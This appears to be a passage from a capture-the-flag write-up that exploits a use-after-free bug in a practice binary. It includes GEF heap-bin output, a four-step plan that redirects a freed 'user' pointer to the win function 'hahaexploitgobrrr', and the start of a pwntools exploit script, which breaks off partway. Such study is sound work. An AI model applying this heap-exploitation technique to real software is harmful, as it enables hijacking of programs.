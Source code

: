 ```console
───────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x8048a4f in leaveMessage (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048a4f → leaveMessage()
[#1] 0x8048d07 → processInput()
[#2] 0x8048d86 → main()
──────────────────────────────────────────────────────────────────────────────────────────────
gef➤  heap bins
────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────
Tcachebins[idx=0, size=0x10, count=1] ←  Chunk(addr=0x804c1a0, size=0x10, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
────────────────────────────── Fastbins for arena at 0xf7f9b7c0 ──────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x18] 0x00
Fastbins[idx=2, size=0x20] 0x00
Fastbins[idx=3, size=0x28] 0x00
Fastbins[idx=4, size=0x30] 0x00
Fastbins[idx=5, size=0x38] 0x00
Fastbins[idx=6, size=0x40] 0x00
──────────────────────────── Unsorted Bin for arena at 0xf7f9b7c0 ────────────────────────────
[+] Found 0 chunks in unsorted bin.
───────────────────────────── Small Bins for arena at 0xf7f9b7c0 ─────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────── Large Bins for arena at 0xf7f9b7c0 ─────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

Now we can see that there is a memory chunk in `tcache` with the address `0x804c1a0`. Whichi is the `user` address.

Plan:

1. We hit `S` to get the address of `hahaexploitgobrrr`.
2. We hit `I`, in turn calling the `i` function to delete the account. Essentially `free`ing `user`. This will put the `user`s memory chunk into the `tcache` bin.
3. We hit `l` to call the function `leaveMessage`. This function will call `malloc` which will check `tcache` then return `user`s pointer.
4. Input the address of `hahaexploitgobrrr`. This will overwrite the contents of `user` pointer with the functions address.

After the following steps `doProcess` will call `hahaexploitgobrrr` and print the flag.

Exploit:

```python
import sys

from pwn import *
from enum import Enum

class Commands(Enum):
  SUBSCRIBE       = "S"
  DELETE_ACCOUNT  = "I"
  CREATE_ACCOUNT  = "M"
  PAY             = "P"
  LEAVE_MESSAGE   = "L"
  EXIT            = "E"

def send_command(command):
  io.recvuntil("(e)xit\n")
  io.sendline(command.value)

def subscribe():
  log.info("Subscribing")
  memleak_line = "OOP! Memory leak..."

```